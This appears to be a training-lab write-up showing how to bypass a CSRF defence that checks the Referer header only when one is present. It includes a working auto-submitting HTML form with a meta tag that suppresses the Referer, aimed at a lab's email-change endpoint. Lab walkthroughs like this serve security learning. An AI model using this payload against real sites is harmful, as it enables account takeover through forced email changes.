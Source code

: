 Title: CSRF where Referer validation depends on header being present
Level: PRACTITIONER
Desc:  This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: wiener:peter 

# Walkthrough:
Changing domain in Referer results in request being blocked - 400 Bad Request
<img width="1129" height="510" alt="image" src="https://github.com/user-attachments/assets/b902def4-597d-4012-a4f9-abcf128d1ef4" />

However we can delete Referer header from request and now it will proceed.
<img width="1030" height="425" alt="image" src="https://github.com/user-attachments/assets/abf47304-c969-45ee-9dff-12944e1d19fd" />

Let's craft our exploit, which doesn't include Referer header.
```
<form method="POST" action="https://0ad100da036ba60f802f03f8002a0000.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="tes23@normal-user.net">
</form>
<meta name="referrer" content="never">
<script>
    document.forms[0].submit();
</script>
```

Additional field to never add referer header: `<meta name="referrer" content="never">`
